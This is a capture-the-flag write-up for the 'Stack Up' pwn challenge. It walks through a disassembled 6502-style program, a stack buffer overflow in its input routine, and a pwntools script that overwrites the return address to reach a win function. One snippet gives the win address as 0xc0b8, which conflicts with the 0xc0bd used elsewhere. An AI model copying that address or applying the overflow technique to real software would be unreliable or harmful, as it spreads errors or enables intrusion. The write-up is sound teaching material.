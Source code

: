 # Stack Up

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud & DavidP |
|  **Category** |  Pwn |
|  **Solves** |  3  |
|  **Difficulty** |  Easy |
| **Files** |  [impossible.zip](<impossible.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/fd8db8af-dffd-4d78-93e2-2979a733e94b)

# Solution

We are provided with two files. This chall is similar to the `Impossible Mission` challenge, but now its an pwn challenge. One binary and one file with data in it. If we use `strings` on file `program.prg` we get some strings, like the REDACTED flag:

```bash
$ strings program.prg
INTIGRITI{REDACTED_REDACTED}
Welcome! Something here...
Bye bye!
Hello
```

Lets disassemble it with our disassembler that we created in the reversing challenge. Here the output(With some comments of my own):

```bash
; Set keyboard as active input channel
004c LDX 3
004e JSR ffc9

; Start of the program. 
0051 LDA 20
0053 STA fb
0055 LDA c0
0057 STA fc
0059 JSR c0c9       ; Jumps to the print function
005c JSR c06d       ; Jumps to the function that takes our input
005f LDA 3c         ; Loads bye bye message
0061 STA fb
0063 LDA c0
0065 STA fc
0067 JSR c0c9       ; Jumps to the print function
006a RTS            ; Exits

; Take our input and does some checks
006b some var
006c some var
006d CLC
006e TSX
006f STX c06b       ; Stores the SP at some memory
0072 TXA
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX
0076 DEX
0077 TXS
0078 STA fd
007a LDA 1
007c STA fe
007e LDY 0
0080 LDA 0
0082 STA c06c
0085 JSR ffcf       ; This will take our input
0088 PHA
0089 LDA c06c       ; Loads our input length in the accumulator
008c CMP 64         ; Compares our input length in the accumulator with 0x64/100. 100 is Maxsize. OVERFLOW is here because we can input more characters than the buffer can take(50)
008e PLA
008f BEQ 11
0091 STA (fd), y
0093 INY
0094 INC c06c       ; Increments our input length
0097 CMP d          ; d is 0x13(carriage return) so checks if user clicks on enter
0099 BEQ 7
009b CMP a          ; a is 0x10(newline) so checks if user clicks on enter
009d BEQ 3
009f JMP c085
00a2 LDA 45
00a4 STA fb         ; Loads Hello message
00a6 LDA c0
00a8 STA fc
00aa JSR c0c9       ; Jumps to the print function
00ad LDA fd         ; Loads our input 
00af STA fb
00b1 LDA fe
00b3 STA fc
00b5 JSR c0c9       ; Jumps to the print function
00b8 LDX c06b       ; Grabs the SP and puts in the X register 
00bb TXS
00bc RTS

; Win function
00bd LDA 3          ; Loads the flag
00bf STA fb
00c1 LDA c0
00c3 STA fc
00c5 JSR c0c9       ; Jumps to the print function
00c8 RTS

; Print function
00c9 LDY ff
00cb INY
00cc LDA (fb), y
00ce JSR ffd2
00d1 BNE f8
00d3 RTS
```

So from here we can see that we have an buffer overflow vulnerability and that there is a win function.
We know 50 is the length so everything above 50 will be overflow. Our padding will be 51 because the buffer is 50 and SP points after the return address.
We can also see it in the disassembled output:

```bash
006e TSX            ; Puts SP in X register
006f STX c06b       ; Stores the SP at some memory
0072 TXA            ; Puts value at X register in accumulator
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX            ; Puts accumulator back in X register 
0076 DEX            ; Decrements X by 1
0077 TXS            ; Puts the value in the X register in the SP register
```

How do we know where we need to return?
When we decompile the binary with ghidra for example, we can find the init function:

```c
bool load_program(void *param_1,size_t param_2)
{
  if ((long)param_2 < 0x1001) {
    memcpy(&DAT_00114908,param_1,param_2);
    FUN_0010269e(0xffff);
    DAT_00108900 = 0xc000;          // program is loaded to 0xC000
  }
  return (long)param_2 < 0x1001;
}
```

We can see here that the base address is 0xc000. In the disassembled output from before we can see some addresses like `c0c4`, `c081`. Those are all addresses in the program. So to get the win address we can see in the disassembled output that the win starts at `00b8`:

```bash
; Win function
00b8 LDA 3 ; Loads the flag
00ba STA fb
00bc LDA c0
00be STA fc
00c0 JSR c0c4 ; Jumps to the print function
00c3 RTS
```

So the address is `0xc0b8`. We see that it loads the flag at offset 3. So lets see if the flag is there:

```bash
                 ,------- flag value --------------------.
                 v                                        v
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 4c c0 49 4e 54 49 47 ┊ 52 49 54 49 7b 52 45 44 │LL×INTIG┊RITI{RED│
│00000010│ 41 43 54 45 44 5f 52 45 ┊ 44 41 43 54 45 44 7d 00 │ACTED_RE┊DACTED}0│
│00000020│ 57 65 6c 63 6f 6d 65 21 ┊ 20 53 6f 6d 65 74 68 69 │Welcome!┊ Somethi│
│00000030│ 6e 67 20 68 65 72 65 2e ┊ 2e 2e 0a 00 42 79 65 20 │ng here.┊.._0Bye │
│00000040│ 62 79 65 21 00 48 65 6c ┊ 6c 6f 20 00 a2 03 20 c9 │bye!0Hel┊lo 0×• ×│
│00000050│ ff a9 20 85 fb a9 c0 85 ┊ fc 20 c9 c0 20 6d c0 a9 │×× ×××××┊× ×× m××│
│00000060│ 3c 85 fb a9 c0 85 fc 20 ┊ c9 c0 60 00 00 18 ba 8e │<×××××× ┊××`00•××│
│00000070│ 6b c0 8a e9 32 aa ca 9a ┊ 85 fd a9 01 85 fe a0 00 │k×××2×××┊×××•×××0│
│00000080│ a9 00 8d 6c c0 20 cf ff ┊ 48 ad 6c c0 c9 64 68 f0 │×0×l× ××┊H×l××dh×│
│00000090│ 11 91 fd c8 ee 6c c0 c9 ┊ 0d f0 07 c9 0a f0 03 4c │•××××l××┊_×•×_×•L│
│000000a0│ 85 c0 a9 45 85 fb a9 c0 ┊ 85 fc 20 c9 c0 a5 fd 85 │×××E××××┊×× ×××××│
│000000b0│ fb a5 fe 85 fc 20 c9 c0 ┊ ae 6b c0 9a 60 a9 03 85 │××××× ××┊×k××`×•×│
│000000c0│ fb a9 c0 85 fc 20 c9 c0 ┊ 60 a0 ff c8 b1 fb 20 d2 │××××× ××┊`××××× ×│
│000000d0│ ff d0 f8 60             ┊                         │×××`    ┊        │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

It indeed starts at that offset.

So if we put everything in a script we get:
> solve.py
```python
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```

Running this on remote will give us the flag.

Flag `INTIGRITI{d0_s0m3_r3tr0_pwn}`
